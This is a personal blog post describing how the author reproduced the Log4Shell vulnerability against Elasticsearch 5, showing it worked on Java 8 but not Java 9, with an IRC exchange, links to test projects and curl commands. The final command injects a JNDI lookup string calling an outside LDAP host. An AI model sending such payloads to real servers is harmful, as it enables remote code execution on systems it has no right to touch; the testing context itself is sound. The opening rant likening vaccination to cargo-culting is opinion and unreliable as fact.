 ```yaml
---
title: Log4shell affects ElasticSearch 5 on Java 8 but not on Java 9
date: 2021-12-21 23:08:54
tags:
- hackers
---
```


## Ranty Prelude

I need to see "your truth" with my own eyes before I cargo-cult your imposed commandments to perform some upgrades. If I'm vulnerable, prove it, else how will I know I solved the problem? Just keep taking your word for it, yeah?

This experience had synchrony with the disputations relating to COVID-19, specifically how we cargo-cult the vaccinations without proof of vulnerability nor proof of patching of said vulnerability. I don't talk about politics on this site but damn this was such funny parallel it's impossible not to point it out.

Some of us just need evidence... we need to exploit or at least see proof of exploitability, before drastic action is warranted, for the drastic action could cause undesired side effects to a system that is otherwise working fine. This is scientific. Anything else is unscientific. I am so tired of appeal to authority or majority "consensus" being considered anything but <a href="https://www.developgoodhabits.com/appeal-to-authority/">fallacious. Sadly not everyone takes Logic.</a>

When I'm lost I turn to IRC. Here's my nice experience sharing (extending the brainstorming beyond my team) this with #elasticsearch on <a href="https://libera.chat/">libera.chat</a> IRC

## Fishing Line to Finish Line

**keyvan:**
good afternoon. im looking for help reproducing the log4shell hack on my ES 5 instance. i have enabled slowlogger and can see my jdni-infected query in the logs, but it does not seem to call out to the external server. i have verified the external setup (im using log4shell.huntress.com) with a small example project containing only various log4j versions and it does work; but it seems elasticsearch isn't affected? but it should be? thanks

**wwalker:**
keyvan: does ES 5 run a new enough log4j to be affected?  ES5 seems like it probably ran log4j rather than log4j-2

**keyvan:**
wwalker: i think it uses log4j 2.9, i know 5.6.10 there's a PR that bumps it to 2.11. there is a table here that shows 5 is supposed to be vulnerable https://discuss.elastic.co/t/apache-log4j2-remote-code-execution-rce-vulnerability-cve-2021-44228-esa-2021-31/291476 but what is interesting is that it appears if on Java 9 (on ES6) you're not vulnerable? so i am wondering if i am not able to repro because im on Java9 on ES5... 

**keyvan:**
i will be downgrading to Java 8 to verify this (the "more vulnerable java") according to that table...

**keyvan:**
haHA!!!!!!!! yep, my ES5 with java 8 was vulnerable... but with Java 9 was NOT.. 

### Appendix

## Eating the Fish

Here we have our basic Log4J tester project in which the log4j dependency can be changed easily in the build.gradle file: https://github.com/kfatehi/log4shell-test-log4j-intellij-idea-project

Then, for the elasticsearch side of things, we've got here a java8 container which is vulnerable to the JNDI attack: https://github.com/kfatehi/docker-elasticsearch5-java8

Finally, we can swap Java 8 for Java 9 (<a href="https://github.com/kfatehi/docker-elasticsearch5-java8/blob/master/Dockerfile#L16">link in the Dockerfile</a>) and witness that the attack does not work.

## Forcing All Queries to Get Logged

```
curl -XPUT 'http://localhost:9200/_all/_settings?preserve_existing=true' -d '{
  "index.search.slowlog.threshold.fetch.debug" : "0ms",
  "index.search.slowlog.threshold.fetch.info" : "0ms",
  "index.search.slowlog.threshold.fetch.trace" : "0ms",
  "index.search.slowlog.threshold.fetch.warn" : "0s",
  "index.search.slowlog.threshold.query.debug" : "0s",
  "index.search.slowlog.threshold.query.info" : "0s",
  "index.search.slowlog.threshold.query.trace" : "0ms",
  "index.search.slowlog.threshold.query.warn" : "0s"
}'
```

## Making the Query

```
curl -XPUT 'http://localhost:9200/my-index' -d '{
{
    "query": {
        "bool" : {
            "must" : {
                "query_string" : {
                    "query" : "${jndi:ldap://log4shell.huntress.com:1389/uuid...}"
                }
            }
        }
    }
}
```
